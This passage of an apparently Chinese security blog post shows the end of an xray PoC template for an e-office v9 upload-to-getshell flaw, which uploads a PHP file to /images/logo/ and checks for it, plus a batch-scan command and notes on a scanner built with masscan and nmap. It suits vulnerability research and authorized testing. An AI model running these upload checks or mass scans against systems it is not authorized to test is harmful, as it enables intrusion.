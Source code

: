 ```
                Content-Type: image/jpeg

                {{r1}}
                --e64bdf16c554bbc109cecef6451c26a4--
        expression: response.status == 200 && response.body.bcontains(b"logo-eoffice.php")
    r2:
        request:
            cache: true
            method: GET
            path: /images/logo/logo-eoffice.php
        expression: response.status == 200 && response.body.bcontains(bytes(r1))
expression: r1() && r2()
detail:
    author: test
    links:
        - https://github.com/chaitin/xray/pull/1540/files
```

##### XRAY批量

将需要扫描的url写到url.txt里，然后执行如下命令。

```
./xray_darwin_amd64 webscan --poc "/Users/txf/poc/e-officev9-upload-getshell.yml" --url-file url.txt --html-output result.txt
```

![image.png](https://image.3001.net/images/20211215/1639539130_61b961ba8e5eefe7d0b7f.png!small)

### DIY自动化扫描器

之前看了linglong（一款资产巡航扫描系统）的源码，在他的基础上重构了一些功能。
一起看看我是如何把xray加到自动化扫描器中。

##### 扫描器开关

在linglong的基础上，我为扫描器添加了开关。
![image.png](https://image.3001.net/images/20211215/1639539173_61b961e5cd07962190928.png!small)
在代码中定义了一个布尔值来做控制。

##### 端口扫描

跟市面上扫描器意义，使用masscan去扫描存活端口，使用nmap进行端口的指纹识别。
原因：

```
1.Nmap在扫描数量较大的目标时性能缓慢

2.Masscan在高速率的扫描较大端口范围时结果不太准确
```

##### web指纹扫描

直接用的开源的识别工具加到代码里。
